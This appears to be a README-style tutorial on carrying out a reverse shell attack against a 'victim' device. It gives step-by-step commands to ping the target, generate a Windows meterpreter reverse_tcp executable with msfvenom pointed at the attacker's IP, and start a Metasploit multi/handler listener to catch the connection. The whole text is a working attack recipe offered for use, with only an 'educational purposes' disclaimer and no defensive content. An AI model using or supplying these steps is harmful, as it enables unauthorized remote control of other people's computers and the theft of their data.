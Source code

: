 # How to do a reverse shell attack

Write-up of how to do a reverse shell attack to any type of device, but Apple devices.
## 
**¡¡DISCLAIMER:** <br /><br />
		**I'm doing this for educational purposes only.**<br />
		**I'm not responsible of any illegal or harmful uses of this file.**<br />
		**The bad use of this Write-up may cause any type of damage to the victim!!**<br />
  		**Use this file responsibly, otherwise you can get in trouble**<br />
## 
Before starting, we need to get our victim's IP to do this type of attack
1. **Check if the victim's IP is up.**
	```
	ping [IP]
 	```

3. **Create a folder with a basic name and get into that folder.**
	```
	mkdir [folder-name] && cd [folder-name]
	```


5. **On the folder created previously execute the command below:**
	```
 	msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR-IP] LPORT=5555 -f exe > path/to/the/folder/of/step/2/[name].exe
	```


7. **Open metasploit and execute this command:** 
	```
	use exploit/multi/handler
 	```


9. **Once executed the previous command, set-up the payload, in this case meterpreter -- reverse_tcp, for that execute the command below:**
	```
 	set payload windows/meterpreter/reverse_tcp
	```


11. **When the command before get executed, introduce the necessary data to create the reverse shell connection, in this case these are the commands:**
	```
 	set LHOST (YOUR IP)
	set LPORT 5555
 	```


13. **Finally, execute the command below to start listening to possible reverse  shell connections.**
	```
	exploit
 	```

